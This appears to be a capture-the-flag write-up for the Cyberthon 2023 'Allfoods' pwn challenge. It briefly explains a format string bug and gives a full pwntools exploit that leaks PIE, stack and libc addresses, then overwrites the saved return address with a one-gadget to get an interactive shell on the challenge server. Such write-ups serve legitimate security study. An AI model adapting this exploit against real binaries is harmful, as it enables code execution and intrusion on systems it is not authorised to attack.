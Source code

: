 ```yaml
---
title: Cyberthon 2023 Writeups
date: 2023-05-11 16:10
categories:
  - writeups
tags:
  - pwn
---
```


Writeups for Cyberthon 2023 Pwn challenges

# Allfoods

This challenge is a simple format string read and write. In this case, full
RELRO is enabled so we can't overwrite the GOT. We can leak a stack address and
use it to calculate the address of RIP.

```py
from pwn import *

exe = ELF("./allfoods_patched")
libc = ELF("./libc.so.6")

context.binary = exe

def conn():
    if args.LOCAL:
        p = process([exe.path])
        if args.GDB:
            gdb.attach(p)
            pause()
    else:
        p = remote("chals.f.cyberthon23.ctf.sg", 43030)

    return p


def main():
    p = conn()

    # good luck pwning :)
    # 47 is pie, 45 is stack leak
    p.sendline(b"%47$p,%45$p")
    p.recvuntil(b"Here's your: ")
    pie = int(p.recvuntil(b",", drop=True), 16) - exe.sym.main
    print(hex(pie))
    exe.address = pie

    leak = int(p.recvline().strip(), 16)
    rip = leak - 0xf0

    p.sendline(b"%9$saaaa" + p64(exe.got.printf))
    p.recvuntil(b"Here's your: ")
    libc_base = u64(p.recvuntil(b"aaaa", drop=True).ljust(8, b'\0')) - libc.sym.printf
    print(hex(libc_base))
    libc.address = libc_base

    payload = fmtstr_payload(8, { rip: libc_base + 0xe3b01 })
    p.sendline(payload)

    p.interactive()

```